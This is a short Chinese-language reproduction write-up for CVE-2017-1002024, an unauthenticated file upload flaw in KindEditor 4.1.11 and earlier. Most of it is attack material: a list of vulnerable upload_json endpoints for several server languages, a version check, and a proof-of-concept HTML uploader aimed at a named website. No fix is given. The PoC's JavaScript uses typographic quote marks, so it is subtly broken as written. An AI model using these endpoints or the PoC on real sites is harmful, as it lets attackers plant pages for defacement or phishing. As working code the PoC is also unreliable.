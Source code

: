 ```yaml
---
title: "（CVE-2017-1002024）Kindeditor <=4.1.11 上传漏洞"
id: zhfly3006
---
```


# （CVE-2017-1002024）Kindeditor <=4.1.11 上传漏洞

## 一、漏洞简介

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

## 二、漏洞影响

Kindeditor <=4.1.11

## 三、复现过程

> json文件地址

```
/asp/upload_json.asp

/asp.net/upload_json.ashx

/jsp/upload_json.jsp `/php/upload_json.php` 
```

> 上传路径

```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file `kindeditor/php/upload_json.php?dir=file` 
```

> 查看版本信息

```
http://www.0-sec.org/kindeditor//kindeditor.js 
```

![image](../img/a1abf6e8b7fd7474d665d41ab0bf5515.png)

> 构造poc

```
<html><head>
<title>Uploader</title>
<script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
<script>
KindEditor.ready(function(K) {
var uploadbutton = K.uploadbutton({
button : K(‘#uploadButton‘)[0],
fieldName : ‘imgFile‘,
url : ‘http://www.0-sec.org/kindeditor/jsp/upload_json.jsp?dir=file‘,
afterUpload : function(data) {
if (data.error === 0) {
var url = K.formatUrl(data.url, ‘absolute‘);
K(‘#url‘).val(url);}
},
});
uploadbutton.fileBox.change(function(e) {
uploadbutton.submit();
});
});
</script></head><body>
<div>
<input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
<input type="button" id="uploadButton" value="Upload" />
</div>
</body>
</html> 
```